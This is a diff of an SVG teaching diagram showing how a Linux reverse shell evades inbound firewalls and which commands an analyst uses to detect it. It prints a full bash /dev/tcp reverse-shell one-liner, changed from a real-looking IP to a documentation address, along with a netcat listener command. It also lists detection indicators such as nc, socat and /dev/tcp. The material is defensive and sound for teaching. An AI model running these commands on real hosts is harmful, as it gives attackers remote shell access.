

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 430" role="img" aria-label="How a Linux reverse shell connects a compromised host back to an attacker, why it evades inbound firewalls, and the commands an analyst uses to see it.">
  <defs>
    <style>
      .bg    { fill: #0b0f1e; }
      .ui    { font-family: ui-sans-serif, system-ui, -apple-system, Segoe UI, sans-serif; }
      .mono  { font-family: ui-monospace, SFMono-Regular, Menlo, Consolas, monospace; }
      .box   { fill: #0e1b30; stroke: #334155; stroke-width: 1.5; }
      .attack{ fill: #26100f; stroke: #f87171; stroke-width: 1.5; }
      .victim{ fill: #0e1b30; stroke: #22d3ee; stroke-width: 1.5; }
      .fw    { fill: #241a06; stroke: #fbbf24; stroke-width: 2; }
      .t     { fill: #e2e8f0; font-size: 13px; font-weight: 700; }
      .s     { fill: #94a3b8; font-size: 11px; }
      .warn  { fill: #fca5a5; font-size: 11px; }
      .cyan  { fill: #67e8f9; font-size: 11px; }
      .det   { fill: #86efac; font-size: 11px; }
      .head  { fill: #cbd5e1; font-size: 12px; font-weight: 700; letter-spacing: .05em; }
      .flow  { stroke: #f87171; stroke-width: 2.5; fill: none; marker-end: url(#ar); }
    </style>
    <marker id="ar" markerWidth="10" markerHeight="10" refX="8" refY="3.5" orient="auto">
      <path d="M0,0 L8,3.5 L0,7 Z" fill="#f87171" />
    </marker>
  </defs>
  <rect class="bg" x="0" y="0" width="960" height="430" />
  <text class="ui head" x="30" y="30">A REVERSE SHELL: THE VICTIM DIALS OUT (SO THE INBOUND FIREWALL NEVER SEES IT)</text>
  <rect class="victim" x="30" y="55" width="300" height="150" rx="10" />
  <text class="ui t" x="46" y="80">Compromised Linux host</text>
  <text class="ui s" x="46" y="102">The attacker's code runs this:</text>
-   <text class="ui mono cyan" x="46" y="126">bash -i &gt;&amp; /dev/tcp/185.4.2.9/4444 0&gt;&amp;1</text>
+   <text class="ui mono cyan" x="46" y="126">bash -i &gt;&amp; /dev/tcp/203.0.113.29/4444 0&gt;&amp;1</text>
  <text class="ui s" x="46" y="150">/dev/tcp is a bash feature — no tool</text>
  <text class="ui s" x="46" y="166">to install. It opens an OUTBOUND</text>
  <text class="ui s" x="46" y="182">connection and hands the shell over it.</text>
  <rect class="fw" x="392" y="70" width="120" height="120" rx="10" />
  <text class="ui" x="452" y="120" text-anchor="middle" style="fill:#fcd34d;font-size:12px;font-weight:700">FIREWALL</text>
  <text class="ui s" x="452" y="144" text-anchor="middle">blocks inbound,</text>
  <text class="ui s" x="452" y="160" text-anchor="middle">allows outbound</text>
  <text class="ui s" x="452" y="176" text-anchor="middle">→ lets it pass</text>
  <rect class="attack" x="574" y="55" width="300" height="150" rx="10" />
  <text class="ui t" x="590" y="80" style="fill:#fca5a5">Attacker's listener</text>
  <text class="ui mono warn" x="590" y="104">nc -lvnp 4444</text>
  <text class="ui s" x="590" y="128">Waiting on port 4444. When the</text>
  <text class="ui s" x="590" y="144">victim connects out, the attacker</text>
  <text class="ui s" x="590" y="160">gets an interactive root/user shell</text>
  <text class="ui s" x="590" y="176">— inbound rules never applied.</text>
  <line class="flow" x1="330" y1="150" x2="392" y2="150" />
  <line class="flow" x1="512" y1="150" x2="572" y2="150" />
  <text class="ui warn" x="330" y="228" text-anchor="middle">the shell travels OUTBOUND, victim → attacker  ▶▶▶</text>
  <text class="ui head" x="30" y="268">WHAT THE ANALYST RUNS TO SEE IT (on the host)</text>
  <rect class="box" x="30" y="284" width="270" height="120" rx="10" />
  <text class="ui det" x="46" y="308" style="font-weight:700">The live connection</text>
  <text class="ui mono s" x="46" y="330">ss -tnp   (or netstat -tnp)</text>
  <text class="ui s" x="46" y="350">Shows an ESTABLISHED outbound</text>
  <text class="ui s" x="46" y="368">session to a strange IP:4444,</text>
  <text class="ui s" x="46" y="386">owned by a bash/nc process.</text>
  <rect class="box" x="315" y="284" width="270" height="120" rx="10" />
  <text class="ui det" x="331" y="308" style="font-weight:700">The process behind it</text>
  <text class="ui mono s" x="331" y="330">lsof -i :4444  ·  ps -ef</text>
  <text class="ui s" x="331" y="350">Ties the socket to a PID and its</text>
  <text class="ui s" x="331" y="368">parent — a shell whose parent is</text>
  <text class="ui s" x="331" y="386">a web server or cron is the tell.</text>
  <rect class="box" x="600" y="284" width="274" height="120" rx="10" />
  <text class="ui det" x="616" y="308" style="font-weight:700">The command that ran</text>
  <text class="ui mono s" x="616" y="330">auditd EXECVE · bash_history</text>
  <text class="ui s" x="616" y="350">Look for /dev/tcp, nc, socat, or a</text>
  <text class="ui s" x="616" y="368">python -c one-liner. Egress from a</text>
  <text class="ui s" x="616" y="386">SERVER to a random high port = alarm.</text>
</svg>
